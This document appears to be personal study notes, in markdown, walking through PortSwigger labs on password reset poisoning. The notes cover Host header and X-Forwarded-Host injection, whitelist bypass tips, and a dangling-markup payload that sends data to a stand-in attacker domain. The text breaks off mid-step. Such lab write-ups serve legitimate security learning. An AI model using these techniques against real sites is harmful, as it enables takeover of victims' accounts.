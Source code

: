 ```
1. First as a attacker , experiment and observe behavior of password reset functionality with ow creds or own account
2. Change own password using given link from password reset and get token and hence get url of token on own email , so we know the process of password reset
3. Now, change the Host:vul-target.com to Host: bing.com and if it success then show 200 OK
4. Now try to replace bing.com to exploit server of attacker's domain own control
5. Now change username or email in repeater to victim
6. In exploit server log file we can see new token generated
7. In repeater, use that token and replace old one and change password of anything we want
8. Now login with victim username or email and password given by attacker


```
sometimes the server will whitelist the Host header, so we should try various other ways like double host header injection, X-Forwarded-Host injection, and also trying to bypass their whitelist. 
Like in next lab
```

```
extra tip: if the app is built on ruby, try adding a .json extension to the end of the password reset URL
 i've found a bug where I could use this to bypass a 4 digit code that they had for access control and inject host header and get password reset poisining
```

### Lab 2 => Password reset poisoning via middleware

Here are the Steps ->

* Same as above almost
* Here we try an extra HTTP Header -> X-Forwarded-Host: attacker-server-here/exploit
* Now get token and replace with old one for victim and change password and login with that new password of victim



### Lab 3  => Password reset poisoning via dangling markup

First Let's know what is dangling markup ? => https://portswigger.net/web-security/cross-site-scripting/dangling-markup

> a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.
> Due to CSP or filtering , if can't do XSS  then can try for Dangling Markup Technique
> example -> `"><img src='//attacker-website.com?`


Here are the Steps ->

1. This time by observing and playing with password reset functionality with own account [Attacker] -> In email no link given for token to reset password
2. This time instead give Link to -> Point to -> Login page and URL Does not contain password reset token
3. Instead "a new password" sent to directly on email body 
4. Now check /email GET request and its Response
5. There on /email Response we saw -> Content of our email is written in string and also there  JS Library using -> DOMPurify
6. In email -> there is an option to view each email as RAW HTML
7. Might be it not sanitized properly
8. Now, from /forgot-password POST Request while changing  Host to Attacker's domain or exploit it will give Server Error
9. But by using "arbitrary port - non-numeric port"  like -> Host: your-lab-id.web-security-academy.net:arbitraryport  -> Trigger a password reset email mean working fine and bypass the server error
10. Now to exploit this we need to change "arbitraryport" to this -> 
```